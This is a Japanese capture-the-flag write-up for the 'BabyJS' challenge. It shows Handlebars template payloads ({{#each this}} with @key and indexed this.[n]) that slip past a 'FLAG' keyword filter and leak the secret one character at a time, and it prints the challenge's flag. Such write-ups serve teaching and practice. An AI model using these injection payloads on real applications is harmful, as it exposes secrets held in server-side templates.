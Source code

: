 ## BabyJS

#### Description

```
Render me If you can.
```

#### Writeup

自分で書いた文字列をそのままレンダリングしてくれるため、うまくフラグを抜き取る問題。 `app.js` を読むと `res.render(p, { FLAG, 'apple': 'mint' });` とあるのと、`{{this}}` を送ると `[object Object]` が返ってくることから、SSTI の問題と判断。ただし `FLAG` という文字列は弾かれるようになっているため、 `{{FLAG}}` のようなことはできない。

`app.js` をさらにみると`app.engine('html', require('hbs').__express);` とあるため、テンプレートエンジンは hbs というものを使っているらしい。マニュアルを読んだものの、ロジックをあまりいれないテンプレートとなっており、 `{{"FL" + "AG"}}` みたいなこともできない。

困り果てて適当なスクリプトを送信し続けたところ、

```
{{#each this}}
{{@key}}
{{/each}}
```

という文字列を送ると、

`settings FLAG apple _locals cache` と返ってきた。

FLAG の文字列を配列として処理してくれないかな、と淡い期待をして

```
{{#each this}}
{{this.[0]}}
{{this.[1]}}
{{this.[2]}}
{{this.[3]}}
{{this.[4]}}
{{this.[5]}}
{{this.[6]}}
{{this.[7]}}
{{/each}}
```

と入力すると、

`D e f e n i t { m i n t` と返ってきた ( `m i n t` の部分は、 app.js の "apple": "mint" に該当)。

この要領で this.[i] をみていってフラグを手に入れた (リクエストが200文字を超えると弾かれるので、ちょっとずつ見る必要がある)。

`Defenit{w3bd4v_0v3r_h7tp_n71m_0v3r_Sm8}`